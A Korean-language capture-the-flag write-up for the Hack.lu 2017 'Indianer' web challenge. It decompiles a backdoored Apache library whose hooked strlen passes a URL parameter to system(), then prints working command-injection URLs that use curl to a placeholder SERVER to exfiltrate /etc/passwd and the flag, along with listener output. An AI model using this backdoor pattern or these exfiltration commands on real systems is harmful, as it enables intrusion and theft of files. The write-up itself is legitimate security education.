 # [WEB] Hacklu 2017 - Indianer

# Description

Try to enter this [Tipi](https://indianer.flatearth.fluxfingers.net/)
[Download](https://flatearth.fluxfingers.net/static/indianer-f7d59dea1f5314f2ddd2d9bd401a996c.zip)

# Analysis

페이지에 들어가면 웹 서버 /에서 리스팅이 되는데, 파일은 index.html을 가지고있다.

index.html은 ubuntu에서 apache를 설치할 때 생성되는 디폴트 페이지이다.

이제 다운받은 파일 `backdoor.so`을 확인해보자.

```c
int __cdecl _libc_start_main(int (__cdecl *main)(int, char **, char **), int argc, char **ubp_av, void (*init)(void), void (*fini)(void), void (*rtld_fini)(void), void *stack_end)
{
  char **v7; // ST28_8
  void (*v8)(void); // ST20_8
  void (*v9)(void); // ST18_8
  void (*v10)(void); // ST10_8
  __int64 (__fastcall *v11)(int (__cdecl *)(int, char **, char **), _QWORD, char **, void (*)(void), void (*)(void), void (*)(void), void *); // ST48_8

  v7 = ubp_av;
  v8 = init;
  v9 = fini;
  v10 = rtld_fini;
  puts("Backdoor installed!");
  v11 = (__int64 (__fastcall *)(int (__cdecl *)(int, char **, char **), _QWORD, char **, void (*)(void), void (*)(void), void (*)(void), void *))dlsym((void *)0xFFFFFFFFFFFFFFFFLL, "__libc_start_main");
  return v11(main, (unsigned int)argc, v7, v8, v9, v10, stack_end);
}
```

\_libc\_start\_main에는 Backdoor installed!라는 문자열을 출력하는 것 뿐이다.

함수 리스트 중 strlen의 소스를 보니 딱봐도 백도어 부분이었다.

```c
__int64 __fastcall strlen(const char *a1)
{
  size_t v1; // rsi
  __int64 result; // rax
  char *v3; // rax
  signed int i; // [rsp+1Ch] [rbp-134h]
  __int64 (__fastcall *v5)(const char *, const char *); // [rsp+20h] [rbp-130h]
  char *v6; // [rsp+28h] [rbp-128h]
  char *v7; // [rsp+30h] [rbp-120h]
  char *s; // [rsp+38h] [rbp-118h]
  char *sa; // [rsp+38h] [rbp-118h]
  char needle[256]; // [rsp+40h] [rbp-110h]
  char v11; // [rsp+140h] [rbp-10h]
  unsigned __int64 v12; // [rsp+148h] [rbp-8h]

  v12 = __readfsqword(0x28u);
  v5 = (__int64 (__fastcall *)(const char *, const char *))dlsym((void *)0xFFFFFFFFFFFFFFFFLL, "strlen");
  if ( !strcmp("GET", a1) )
    ++trigger;
  v1 = (size_t)"ndex.html";
  v7 = strstr(a1, "ndex.html");
  if ( v7 && apr_hook_debug_enabled )
  {
    apr_hook_debug_enabled >>= 8;
    *(v7 - 1) += apr_hook_debug_enabled;
    apr_hook_debug_enabled = 0;
    counter = 0;
    result = v5(a1, "ndex.html");
  }
  else
  {
    memset(needle, 0, sizeof(needle));
    v11 = 0;
    for ( i = 0; i <= 511; i += 9 )
    {
      v1 = (unsigned int)(((_ & 1) + i) % 24 + 97);
      needle[i % 35] = ((_ & 1) + i) % 24 + 97;
    }
    needle[_] = 0;
    if ( trigger & 1 )
    {
      ++_;
      if ( counter <= 1 )
        ++counter;
      if ( _ > 1u )
      {
        v1 = v5(a1, (const char *)v1);
        s = (char *)memmem(a1, v1, needle, 0x22uLL);
        if ( s )
        {
          *s = 0;
          v3 = &s[strlen(needle)];
          sa = v3 + 1;
          if ( *v3 == 61 )
          {
            while ( 1 )
            {
              v1 = 95LL;
              v6 = strchr(sa, 95);
              if ( !v6 )
                break;
              *v6 = 32;
            }
            apr_hook_debug_enabled = system(sa);
          }
        }
      }
    }
    if ( counter > 1 )
      counter = 0;
    result = v5(a1, (const char *)v1);
  }
  return result;
}
```



/뒤에 ndex.html가 들어있으면 안되고  `s = (char *)memmem(a1, v1, needle, 0x22uLL);`의 결과가 1 이상이면 특정 조건에 맞춰 `system(sa);`를 실행해준다. 

needle은 /뒤에 들어가는 값으로써, 백도어에서 needle의 값은 아래의 코드를 통해 계산이 된다.

```C
for ( i = 0; i <= 511; i += 9 )
{
  v1 = (unsigned int)(((_ & 1) + i) % 24 + 97);
  needle[i % 35] = ((_ & 1) + i) % 24 + 97;
}
```

이를 python으로 옮겨 needle의 값을 구해보자.

```Python
_ = 0x6E
needle = [0 for i in range(35)]
for i in range(0,512,9):
  needle[i%35]=chr(((_ & 1)+i)%24+97)

print ''.join(needle)
```

위 코드를 실행하면 파라미터의 값 `dpdpdpamamamamajvjvjvjvgsgsgsgsgpdp`가 나온다.

또한 needle뒤에 =가 들어있으며 그 뒤에는 system()함수에 쓰실 커맨드가 들어가게된다.

주의할 것은 아래의 소스 부분이다.

```c
while ( 1 )
{
  v1 = 95LL;
  v6 = strchr(sa, 95);
  if ( !v6 )
    break;
  *v6 = 32;
}
```

sa의 값이 _가 들어있으면 이를 space로 취급한다.

이렇게 완벽된 공격 백터는 다음과 같다. `https://indianer.flatearth.fluxfingers.net/dpdpdpamamamamajvjvjvjvgsgsgsgsgpdp=(시스템 명령어)`

이제 공격을 시작해보자.

# Exploit

## Command Injection

우선 system()명령어를 수행하더라고 결과를 출력해주지는 않기 때문에 중간에 받을 서버가 필요하다.

이를 통해 /etc/passwd를 긁어와보자.

```
# url
https://indianer.flatearth.fluxfingers.net/dpdpdpamamamamajvjvjvjvgsgsgsgsgpdp=curl_http://SERVER/$(cat_/etc/passwd)
# Result
Listening on [0.0.0.0] (family 0, port 10101)
Connection from [149.13.33.84] port 10101 [tcp/*] accepted (family 2, sport 52990)
GET /root:x:0:0:root:/root:/bin/bash HTTP/1.1
Host: SERVER:10101
User-Agent: curl/7.55.1
Accept: */*
```

오 긁어와진다.

이를 통해 플래그를 찾기 위해 디렉토리를 열심히 찾던 중 발견하였다.

```
# url
https://indianer.flatearth.fluxfingers.net/dpdpdpamamamamajvjvjvjvgsgsgsgsgpdp=curl_http://SERVER/$(cat_/*/*/flag*)
# Result
Listening on [0.0.0.0] (family 0, port 10101)
Connection from [149.13.33.84] port 10101 [tcp/*] accepted (family 2, sport 52992)
GET /FLAGf4ncy_S3CR3T_ex1t HTTP/1.1
Host: SERVER:10101
User-Agent: curl/7.55.1
Accept: */*
```

플래그를 얻었다!



**FLAG{f4ncy_S3CR3T_ex1t}**

